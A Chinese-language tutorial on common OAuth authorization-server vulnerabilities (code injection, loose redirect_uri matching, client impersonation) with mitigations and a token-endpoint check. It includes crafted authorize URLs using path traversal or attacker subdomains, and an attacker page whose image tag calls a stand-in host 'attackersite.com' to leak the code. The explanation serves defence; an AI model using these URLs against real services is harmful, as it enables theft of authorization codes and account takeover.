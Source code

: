 常见的授权服务器漏洞
======================================

会话劫持
--------------------------------------

在授权码许可流程中，攻击者可以通过自己的账号登陆站点，然后篡改重定向URI将其他用户的授权码注入，访问其他受害者的资源。

解决方案:
 - 客户端不能多次使用同一个授权码，如果一个客户端使用了已经被用过的授权码，授权服务器必须拒绝该请求，并且应该尽可能撤回之前通过授权码颁发的所有令牌
 - 将授权码与client_id绑定，在获取令牌时做校验：保证授权码只会颁发给经过身份认证的客户端；如果客户端不是保密客户端，则要确保授权码只会颁发给请求中client_id对应的客户端

重定向URL篡改
--------------------------------------

之前已经说明在注册redirect_uri时应该尽可能具体，在授权服务器对请求中的redirect_uri与注册的redirect_uri进行校验通常有三种方法：精确匹配、允许子目录、允许子域名

精确匹配

将收到的redirect_uri参数与客户端注册信息中记录的redirect_uri进行简单的字符串比较，如果不匹配，则提示错误。精确匹配是唯一始终安全的重定向URI校验算法

允许子目录

只校验请求中redirect_uri的起始部分，只要以注册信息中的redirect_uri为起始内容，后续追加任何内容都被视为有效，redirect_uri路径可以指向注册的回调URL的一个子目录

允许子域名

为redirect_uri中的主机名部分提供了一些灵活性，如果收到的redirect_uri是注册信息中redirect_uri子域名，则会被认为有效

允许子目录的重定向攻击

OAuth客户端redirect_uri为::

    https://theoauthclient.com/oauth/oauthprovider/callback

OAuth客户端会发送如下请求::

    https://www.thecloudcompany.biz/authorize?response_type=code&client_id=CLIENT_ID@scope=SCOPE&state=STATE&redirect_uri=https://theoauthclient.com/oauth/oauthprovider/callback

确保攻击得逞的条件是，攻击者能够在目标客户端站点创建页面::

    https://theoauthclient.com/usergeneratedcontent/attackerpage.html

攻击者构建如下的URL::

    https://www.thecloudcompany.biz/authorize?response_type=code&client_id=CLIENT_ID@scope=SCOPE&state=STATE&redirect_uri=https://theoauthclient.com/oauth/oauthprovider/callback/../../usergeneratecontent/attackerpage.html

如果允许子目录的校验算法，则该redirect_uri完全合法，这个精心构造的redirect_uri使用路径遍历爬升到站点的根节点，然后再向下定位到攻击者自行生成的页面，如果授权服务器采用TOFU方法，根本不会向受害用户显示授权页面。攻击者页面内容::

    <html>
        <h1>Autuorization in progress</h1>
        <img src="https://attackersite.com">
    </html>

允许子域名的重定向攻击

如果授权服务器使用允许子域名的重定向URI校验算法,并且OAuth客户端允许攻击者在redirect_uri子域名下创建受其控制的页面。攻击者控制的页面可以运行在http:attacker.theoauthclient.com之下。攻击者构建的URI如下::

    https://www.thecloudcompany.biz/authorize?response_type=code&client_id=CLIENT_ID&scope=SCOPE&state=STATE&redirect_uri=https://attacker.theoauthclient.com

客户端假冒
--------------------------------------

在前面已经讨论过，可以利用重定向的漏洞获取受害者的授权码，并通过授权码获取访问令牌。决绝方案可以在授权服务器令牌端点处理授权码许可请求部分，添加如下代码::

    if(code.request.redirect_uri){
        if(code.request.redirect_uri != req.body.redirect_uri){
            res.status(400).json({Error: 'invalid_grant'});
        }
    }
